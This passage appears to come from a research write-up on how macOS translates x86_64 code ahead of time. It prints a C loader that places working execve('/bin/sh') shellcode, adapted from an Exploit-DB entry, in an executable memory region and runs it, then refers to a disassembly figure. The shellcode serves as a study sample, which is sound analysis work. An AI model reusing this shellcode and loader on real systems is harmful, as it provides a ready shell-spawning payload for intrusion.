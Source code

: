 ```c
// run_shellcode.c
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

typedef int (*sc)();

char shellcode[] =
"\x48\x31\xc0\x99\x50\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\x48\x31\xf6\xb0\x02\x48\xc1\xc8\x28\xb0\x3b\x0f\x05";
/*
section .text
global start
start:
    ; execve("//bin/sh", 0, 0)
    xor  rax, rax
    cdq
    push rax
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    xor  rsi, rsi
    mov  al, 0x2
    ror  rax, 0x28
    mov  al, 0x3b
    syscall
*/

int main(int argc, char **argv) {
    void *ptr = mmap(0, 0x22, PROT_EXEC | PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (ptr == MAP_FAILED) {
        perror("mmap");
        exit(-1);
    }
    memcpy(ptr, shellcode, sizeof(shellcode));
    ((sc)ptr)(); // <----- run shellcode
    return 0;
}
```

The above code is a modified version of [OSX/x86\_64 - execve(/bin/sh) + Null-Free Shellcode (34 bytes)](https://www.exploit-db.com/exploits/38065).
The process is as follows:

- Allocate a memory region with W+R+X permission by anonymous mapping
- Write `shellcode`
- Go to the heap region where the `shellcode` is written

Here, I show the disassembly listing and the decompilation of the AOT file corresponding to the above x86\_64 code (Figure 18).
Note that the base address is set to 0x100010000.
